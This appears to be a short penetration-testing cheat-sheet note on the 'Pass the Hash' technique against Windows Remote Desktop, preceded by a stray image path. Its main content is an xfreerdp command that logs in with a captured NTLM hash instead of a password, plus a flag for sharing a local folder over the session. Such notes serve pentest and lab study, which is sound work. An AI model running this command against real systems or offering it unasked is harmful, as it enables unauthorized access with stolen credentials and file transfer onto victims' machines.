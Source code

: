 Attacks: #PtH 
# Pass the Hash
```shell-session
$ xfreerdp  /v:<IP> /u:<user> /pth:64F12CDDAA88057E06A81B54E73B949B
```


# Useful Flags
- `/drive:Shared,<PATH>`: Share a path
